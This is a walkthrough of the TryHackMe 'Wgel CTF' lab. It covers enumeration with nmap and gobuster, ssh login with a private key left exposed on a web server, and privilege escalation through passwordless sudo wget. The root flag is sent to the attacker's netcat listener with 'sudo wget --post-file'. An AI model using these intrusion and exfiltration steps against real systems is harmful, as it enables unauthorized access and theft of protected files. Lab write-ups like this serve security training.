## Wgel CTF

### Introduction

Hello and welcome to my write-up/walkthrough for the [TryHackMe](https://tryhackme.com) room [Wgel CTF](https://tryhackme.com/room/wgelctf)

This is a pretty easy room, but I think it is a good one to look at either way as the method to get the `root` flag is a bit different than others. 

### Goals

This room has two flags that we need to find.
- User Flag
- Root Flag

### Notes

This room was completed using a Kali VM installed on my personal machine. 

Any time `$IP` is referenced in a command, replace that with the target machine's IP address, as this will vary from instance to instance.

This is also one of the few machines that I have ran into connection issues using OpenVPN to do this on my VM. You may want to complete this room with TryHackMe's AttackBox if you can. 

With that out of the way, let's begin!

## Enumeration.

As with all of the rooms that a machine needs to be deployed on TryHackMe, the first steps are always trying to see what we can find out about the target machine in order to gain access. 

The first tool I use is `nmap` and then will follow that up with `gobuster`.

### nmap

In order to see what ports and services are running on the target we will run a `nmap` scan using the following command:

`nmap -sV -sC $IP`



As we can see from the screenshot above, we have two ports open. `port 22` for `ssh` and `port 80` for HTTP.

Two things to note from that scan. With port 80 being open, there is likely a webserver being hosted on the target machine, and we should be able to view that in our browser. Second, with `port 22` being open for `ssh` connections, we will most likely need to find a username and a password of some form to connect to the machine via `ssh`

Now that we know what ports are open on the machine, we can move onto `gobuster`.

### gobuster

To begin scanning the target for other directorys that we might be able to access in a browser, we can use the tool `gobuster` to run through a wordlist to see what might be hidden. For that we can run the following command:

`gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt`

Once that is complete, you will get the following output:



We get a few results that we can make note of, noteably `/sitemap/` as it appears that there might be more contained within that directory.

With both of those out of the way, lets take a look at the site itself.

Entering `$IP` in a browser shows us the following. 



Since it's a default Apache2 screen, it seems like Apache2 is running on the target, but hasn't been set up yet.

However, things tend to be 'hidden in plain sight' so I always look at the page source.



That looks like it might be of interest! We have a potential username of `jessie` that we might be able to use later on to connect via `ssh` 

Next we can move on to the results of the `gobuster` scan that we did earlier. First we will look at `$IP/sitemap`

When first get to `$IP/sitemap` we get this 'unapp Template' that doesn't seem to really contain too much for us. Clicking links leads us to 404's, so I think that this is more-or-less a placeholder.

We should go back to `gobuster` and run another scan on `$IP/sitemap` to see if there is anything hidden within. 

We can do that with the following command:

`gobuster dir -u http://$IP/sitemap -w /usr/share/wordlists/dirb/common.txt`



Now that is an insteresing find. There is a `.ssh` directory. Let's open that in a browser to see what's there.



Clicking on `id_rsa` opens up what appears to be a RSA private key. We will need to copy that into a local file, and then we can possibly use that to log in as `jessie`.

I created a local file called `id_rsa1` and pasted the contents of `$IP/sitemap/.ssh/id_rsa` with `nano`



Once we have that saved, we can attempt to `ssh` into the target machine using the following command:

`ssh -i id_rsa1 jessie@$IP`

Note: `-i` lets you specify the private RSA key that you want to use, so you will need to specify the filepath and filename for what you saved the private RSA key that we found.

Also when you utilize a different private RSA key, it will look at the file permissions of that key. If the key can be 'read' by anyone other than the user, it will not accept it, and you will get an error that looks like the following screenshot:



To fix this, you will need to press `ctrl+c` and use `chmod 400 id_rsa1` to allow only the owner to read it. You can then run `ssh -i id_rsa1 jessie@$IP` again to connect to the target.



We are now connected to the machine as `jessie`

In looking around in `/home/jessie` we can find the `user_flag.txt` in `/home/jessie/Documents/user_flag.txt` and can view it with `cat user_flag.txt`



Now that we have the first of our two goals, we need to find the `root flag`.

First lets check if we can run anything as `sudo` by running `sudo -l`. Hopefully there is something that we can run that doesn't require a password, as we don't have `jessie`'s password.



It appears that we can use `wget` with sudo, without using a password. 

Lets see if there is a way that we can exploit this on one of my favorite resources GTFObins

#### GTFObins

Once we navigate to [GTFObins](https://gtfobins.github.io) we can search for wget



Since we are looking for the `root flag`, the `File Upload` section will most likely be our best bet.



We will need to set 2 different variables. The first being `$URL`. 

Find the IP address of YOUR machine (With TryHackMe, this will be the IP address listed at the top of the room highlighted in green)

Once you have that IP address, we will need to pick a port. (I always use 1234 for a port, but any port not in use will work)

We will set `$URL` with the command

`URL=YOURIP:1234`



For the `LFILE` variable, we will need to specify the file that we are going to upload to `$URL`.
As this is for the `root flag`, I guessed that it would be located in the `/root/` directory, following the same naming convention used for `user_flag.txt`.

To set that as `LFILE` we can run the command

`LFILE=/root/root_flag.txt`

Once those are both set, we just need to open an additional terminal and set up a `netcat` listener. This will listen for the information that is being sent when we run the `wget` command from the target machine. 

For this, you will enter `nc -lvnp 1234` and press enter, where `1234` is whichever port that you selected earlier.

Once your listener is set up, return to your other terminal and we will run the following command:

`sudo wget --post-file=$LFILE $URL`

Hit enter to run it, and we should get the root flag in our netcat listener!



We now have both `user_flag.txt` and `root_flag.txt` to complete the room!

### Conclusion. 

Thank you very much for taking the time to read through my write-up, and be sure to check out the others that I have hosted on my GitHub as well. 
